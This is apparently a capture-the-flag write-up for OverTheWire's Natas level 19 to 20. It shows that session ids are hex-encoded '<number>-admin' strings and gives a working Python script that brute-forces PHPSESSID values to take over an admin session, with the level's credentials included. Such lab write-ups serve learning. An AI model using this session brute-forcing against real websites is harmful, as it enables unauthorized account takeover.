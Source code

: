 # Level 19 -> Level 20

The PHPSESSION id is in hex which when decoded gives  

```
3438352d61646d696e -> 485-admin
```

let's try bruteforcing the value 485 from 1 through 640 as the page said that it mostly uses the code from before  

```python
import requests

target = 'http://natas19.natas.labs.overthewire.org/'
auth = ('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')
params = dict(username='admin', password='anyrandomword')
cookies = dict()

max_s_id = 640
s_id = 1

while s_id <= max_s_id:
        print("Trying with PHPSESSID =", s_id)
        s_id_hex = f'{s_id}-admin'.encode('utf_8').hex()
        cookies = dict(PHPSESSID=s_id_hex)
        r = requests.get(target, auth=auth, params=params, cookies=cookies)
        if "You are logged in as a regular user" not in r.text:
                print(r.text)
                break
        s_id += 1
```
